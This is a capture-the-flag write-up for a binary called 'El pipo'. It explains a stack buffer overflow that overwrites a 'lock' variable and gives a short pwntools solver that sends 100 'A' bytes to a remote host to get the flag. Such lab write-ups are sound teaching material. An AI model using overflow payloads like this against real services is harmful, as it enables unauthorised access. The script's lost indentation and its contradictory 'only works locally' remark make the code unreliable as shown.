


El pipo
First, we analyze the binary to understand its logic.

From the decompiled pseudocode, we observe several initialized
variables. The most important one is lock, which controls
access to the flag. Under normal execution, this variable is set to
0x01 and cannot be modified through regular program
flow.
To solve the challenge, we need to change the value of
lock.
The program reads user input into a fixed-size buffer without proper
bounds checking, which introduces a buffer overflow vulnerability. By
sending input larger than the buffer, we can overwrite adjacent values
on the stack, including the lock variable.
Since the only requirement is for lock to have a value
different from 0x01, the exploit is straightforward: send a
sufficiently large payload to overflow the buffer and overwrite
lock.
Solver.py
#!/usr/bin/python3
from pwn import *
import warnings
import os
import sys
warnings.filterwarnings('ignore')
context.log_level = 'critical'
fname = './el_pipo'
LOCAL = False
os.system('clear')
if LOCAL:
print('Running solver locally..\n')
r = process(fname)
else:
IP = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
r = remote(IP, PORT)
print(f'Running solver remotely at {IP} {PORT}\n')
# send payload
r.sendline(b'A' * 100)
# read flag
print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
Remember that this script only works locally
Vulnerability
To better understand the vulnerability, let’s examine the assembly.

Local variables are stored on the stack, including the input buffer.
Because the program does not properly limit the amount of data written
into this buffer, it is vulnerable to a buffer overflow.
The stack grows from higher memory addresses to lower ones. When
input exceeds the buffer size, it overwrites adjacent variables located
further up the stack frame. In this case, the overflow reaches the
lock variable.
By overwriting lock with any value other than
0x01, we bypass the program’s check and obtain the
flag.
Home